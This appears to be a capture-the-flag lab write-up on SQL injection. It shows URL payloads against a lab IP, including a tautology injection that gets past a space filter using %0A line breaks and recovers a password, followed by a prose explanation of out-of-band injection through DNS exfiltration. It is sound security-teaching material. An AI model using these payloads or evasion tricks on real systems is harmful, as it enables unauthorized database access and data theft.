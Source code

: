 #### Practical

***

Let's go to:

```
http://10.10.223.104/space/search_users.php?username=?
```

![](Pasted%20image%2020250505153216.png)

As seen, we can use our previous payload and we get this:

```
http://10.10.223.104/space/search_users.php?username=1%27%20||%201=1%20--+
```

![](Pasted%20image%2020250505153305.png)

Still does not work, seems like the filter is better on this page, it seems like the spaces are being omitted by the code, we can replace them by whitespaces and line breaks:

```
%09 or %0A
```

Let's use this payload then:

```
http://10.10.223.104/space/search_users.php?username=1'%0A||%0A1=1%0A--%27+
```

![](Pasted%20image%2020250505153437.png)

It worked, there we got our answer:

```
Password for attacker user is: tesla
```

## Out-of-band SQL Injection

***

Out-of-band (OOB) SQL injection is an attack technique that pentester/red teamers use to exfiltrate data or execute malicious actions when direct or traditional methods are ineffective. Unlike In-band SQL injection, where the attacker relies on the same channel for attack and data retrieval, Out-of-band SQL injection utilises separate channels for sending the payload and receiving the response. Out-of-band techniques leverage features like **HTTP** requests, **DNS** queries, **SMB** protocol, or other network protocols that the database server might have access to, enabling attackers to circumvent firewalls, intrusion detection systems, and other security measures.

![process flow of OOB injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1717060822273)

One of the key advantages of Out-of-band SQL injection is its stealth and reliability. By using **different communication channels**, attackers can minimise the risk of detection and maintain a persistent connection with the compromised system. For instance, an attacker might inject a **SQL payload that triggers the database server to make a DNS request** to a malicious domain controlled by the attacker. The response can then be used to extract sensitive data without alerting security mechanisms that monitor direct database interactions. This method allows attackers to exploit vulnerabilities even in complex network environments where direct connectivity between the attacker and the target is limited or scrutinised.&#x20;
